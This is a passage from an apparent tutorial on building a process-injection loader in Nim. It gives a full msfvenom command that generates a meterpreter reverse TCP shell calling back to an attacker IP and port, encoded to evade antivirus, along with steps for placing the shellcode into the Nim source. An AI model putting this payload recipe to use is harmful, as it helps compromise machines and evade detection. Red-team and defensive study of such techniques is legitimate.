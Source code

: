     ### begin process injection code
    
    # shellcode payload: this is prepared on our attacker machine and then included in our code 
    ### 1) msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.3.28 LPORT=1701 -f csharp -e x64/zutto_dekiru -i 2
    ### 2) The msfvenom command will generate a little over 200,000 bytes to include in our code since it must include a full meterpreter shell (non-staged). An explanation of the options:
    ###### a) -p (payload) is for windows 64-bit, non-staged meterpreter reverse tcp shell
    ###### b) LHOST is the IP address of our attacker machine
    ###### c) LPORT is the port we are listening on
    ###### d) -f csharp to format shellcode for our use
    ###### e) -e x64/zutto_dekiru to encode the payload for static anti-virus inspection of the binary
    ###### f) -i 2 for two iterations of zutto_dekiru encoding. each iteration slightly increases the overall file size, but more iterations can help protect from inspection
    
    ### end process injection code


Next we are going to input the shellcode we generated with msfvenom.  The format for our shellcode will be: 

    var shellcode: array[<payload size in bytes>, byte] = [ byte <shellcode> ]

Substitute the number of bytes for \<payload size in bytes\>, so in my case:  

    var shellcode: array[201391, byte] = [ byte <shellcode> ]
  
The shellcode itself will take a bit more to get into our code file.  As you can see below from my heavily trimmed output, the shellcode in code.out is over 13,000 lines long.  Fortunately we do not need to alter it much.

![](/images/nim_proc_inject_pt1/38. shellcode1.png)
\<output trimmed\>
![](/images/nim_proc_inject_pt1/39. shellcode2.png)

\<\< Attacker Machine \>\> 

We use a text editor to remove the first line:  "byte[] buf = new byte[201391] { "

Also remove the " }; " at the end of the file.  

You can do this in your editor of choice, and then save code.out again.

For reference, here are the results of head and then tail on code.out after I made the changes:
